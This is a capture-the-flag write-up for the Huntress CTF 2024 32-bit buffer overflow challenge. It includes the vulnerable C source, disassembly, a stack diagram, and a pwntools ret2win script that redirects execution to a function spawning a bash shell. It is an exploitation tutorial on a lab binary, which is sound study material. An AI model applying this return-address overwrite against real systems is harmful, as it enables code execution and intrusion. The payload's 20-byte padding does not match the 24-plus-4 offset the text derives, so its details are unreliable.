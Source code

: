 ```yaml
---
title:          "Baby Buffer Overflow - 32bit (Huntress CTF 2024)"
pubDate:        2024-11-27
tags:
    - CTF
    - ComSec
    - CyberSecurity
    - Write-up
    - Huntress
    - Huntress-CTF-2024
unlist:    true
draft:     false
description: ""
heroImage: ""
author: "Yukna"
---
```


> Author: @aenygma
> 
> Can you command this program to where it cannot go?
> To get the flag, you must somehow take control of its excecution.
> Is it even possible?

Looking at the provided `C` code:

```c 
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

We can tell that there is **no stack pointer protection**, and to help us, *position-independent executable* compiling is disable. This means function stack frames are placed back-to-back and addresses are as they would be. We want to hit the buffer in `vuln()` so that the `return` function returns back up to `target` instead of back to `main`. Decompiling the offered program in Binja, the `target` is mapped to location `080491f5  int32_t target()`, while the `vuln` is as follows:

```
08049236  int32_t vuln()

08049236  55                 push    ebp {__saved_ebp}
08049237  89e5               mov     ebp, esp {__saved_ebp}
08049239  83ec18             sub     esp, 0x18
0804923c  83ec0c             sub     esp, 0xc
0804923f  8d45e8             lea     eax, dword ptr [ebp-0x18 {var_1c}]
08049242  50                 push    eax {var_1c} {var_2c}
08049243  e8d8fdffff         call    gets
08049248  83c410             add     esp, 0x10
0804924b  b800000000         mov     eax, 0x0
08049250  c9                 leave    {__saved_ebp}
08049251  c3                 ret      {__return_addr}
```

We are interested in the location in the stack that stores the buffer, and the location that the `__saved_ebp` is pushed it. 
1. `push ebp {__saved_ebp}` stores the previous base stack pointer value to the stack, 
2. `mov ebp, esp {__saved_ebp}` sets the new stack base to the current stack pointer
3. `sub esp, 0x18` increases the stack by 0x18 bytes
4. `lea eax, dword ptr [ebp-0x18 {var_1c}]` calculates the effective address of *0x18 bytes behind the stack pointer*.

This is what it would look like:

```

    +----------+ \
    | ret addr | |
    +-        -+ |
    | ret addr | | 
    +-        -+ | portion we target
    | ret addr | |
    +-        -+ |
    | ret addr | |
    +----------+ / 
    | old ebp  |
    +-        -+
    | old ebp  |
    +-        -+
    | old ebp  |
    +-        -+
    | old ebp  |
    +----------+ <- ebp
    |          |
    +----------+ <- esp-0x18
      .......
    +----------+
    |          | 
    +----------+ <- esp

```

Starting from the `esp` below, data will get pushed in up until the last *blank* byte at `esp-0x18`. So by entering 24 random characters, we hit the and of the stack. The next four bytes are the `old esp` position, and above that is the precious `{__return_addr}`. We will need to key in `0x080491f5`, but not with ascii characters of course. So we use `pwntools` in python to help us.

```py
from pwn import *

target_function_address = 0x080491f5  # Address of target function

# Construct the payload
payload = b'A' * 16 + b'B' * 4 + p32(target_function_address)

# Connect to the remote service
p = remote("challenge.ctf.games", PORT)


# Send the payload
p.sendline(payload)


# Drop into interactive mode to access the shell
p.interactive()
```

We get dropped into the shell after running this, and we are free to roam the world (and print the file containing the flag).

